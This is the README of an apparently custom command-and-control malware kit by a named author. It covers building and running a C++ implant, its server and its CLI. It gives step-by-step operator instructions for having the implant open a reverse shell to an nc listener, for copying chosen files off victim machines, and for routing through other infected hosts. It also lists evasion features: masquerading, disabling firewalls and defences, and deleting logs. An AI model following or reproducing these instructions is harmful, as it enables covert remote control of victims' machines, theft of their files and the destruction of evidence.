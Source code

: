 # Command & Control

## Implant
```bash
cd client
```

### Dependency
You need to install the cpr library:
https://girishjoshi.io/post/using-cpr-for-making-http-requests-c++/ 

Possible issue:
```bash
./bin/prog: error while loading shared libraries: libcpr.so.1: cannot open shared object file: No such file or directory
```
https://stackoverflow.com/questions/480764/linux-error-while-loading-shared-libraries-cannot-open-shared-object-file-no-s

### Compile 
```bash
make
```

### Configuration


### Execution
```bash
make run
```

The malware will try to ping the server.

## Server
```bash
cd api
```

### Setup 
```bash
npm install
chmod +x setup.sh
./setup.sh
```

### Execution
```bash
just
```

## CLI

### Execution
```bash
python3 run.py
```

### First of all 

List all the implants to get their UID to address them:
```bash 
python3 run.py list-implants
```

### How to get a reverse shell
You can configure the implant with the IP and PORT that you want.
Go to client/src/config.hpp:
```cpp
#define RS_IP YOUR_IP
#define RS_PORT YOUR_PORT
```

On your machine, you need to listen for a connection with *nc*
```bash
nc -lvnp RS_IP RS_PORT
```

With the CLI add a reverse shell task to the implant you want to connect to:
```bash
python3 run.py add-tasks --uid UID_FROM_LIST_IMPLANTS --tasktype reverse_shell
```

For exemple: UID_FROM_LIST_IMPLANTS = e0d00d2e-4445-46cd-a76d-f71a70b88545

### How to extract files

First you need to configure the implant, go to client/src/config.hpp
Add to the variable *file_to_extract* the abolute paths of the files you want to get.
```cpp
21: static const std::array<const char*, NUMBER_OF_PATHS> file_to_extract({"/home/username/exemple", ...});
``` 

With the CLI add a reverse shell task to the implant you want to connect to:
```bash
python3 run.py add-tasks --uid UID_FROM_LIST_IMPLANTS --tasktype extract
```
The extracted files will be on the server in the files/ directory

### Routing and Beacon

To take advantage of the routing componant of this C2 you need to configure the implant with all the IP addresses that you want to try to connect in the hope that one of them is infected and connected to internet.  
Go to client/src/config.hpp: Add to the variable *routing* all the IPs
```cpp
19: static const std::array<const char*, NUMBER_OF_IPs> routing({"127.0.0.1", ...});
```

# Defence Evasion technics

- Masquerading 

## If executed as root 

- Disable firewall and defences
- Remove logs

# Author
Evan Clausse